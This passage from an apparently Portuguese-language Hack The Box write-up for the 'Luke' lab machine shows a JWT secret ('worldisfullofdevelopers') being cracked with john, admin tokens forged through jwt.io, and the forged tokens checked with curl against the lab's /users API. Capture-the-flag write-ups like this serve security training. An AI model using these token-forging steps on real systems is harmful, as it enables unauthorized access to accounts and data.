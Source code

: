 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_t3.png)

Geramos o Token

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoiMCJ9.JjszoyYbYTqft8Ghq_3d3YXyGxxW7usaSC0hQYj1BkY`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_t4.png)

Agora verificamos no site se ele é válido

`curl -s http://10.10.10.137:3000/users -H 'Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoiMCJ9.JjszoyYbYTqft8Ghq_3d3YXyGxxW7usaSC0hQYj1BkY' | jq`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_t5.png)

Sim! É válido, agora vamos tentar quebrar esse Token, uma vez que sabemos qual a chave dele

Criamos uma worldist com algumas palavras e a chave correta `worldisfullofdevelopers` e executamos o john em cima dela, verificamos que é possível quebrar

`john --wordlist=senhas token.txt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_k.png)

Com a senha, em um outro cenário, poderíamos utilizar para gerar outros tokens de outros usuários, e assim ganhar acesso ao sistema

Poderíamos utilizar do websites que criam esses tokens, como exemplo o `https://jwt.io`. Criamos o token nele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_k1.png)

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoiMCJ9.fN9JR22zokMZqWNv_UVRrUxn4bHqpC9lr2gRnePFyQ0

Agora testamos pra ver se ele é válido

`curl -s http://10.10.10.137:3000/users -H 'Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoiMCJ9.fN9JR22zokMZqWNv_UVRrUxn4bHqpC9lr2gRnePFyQ0' | jq`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_k2.png)

Sim, é válido!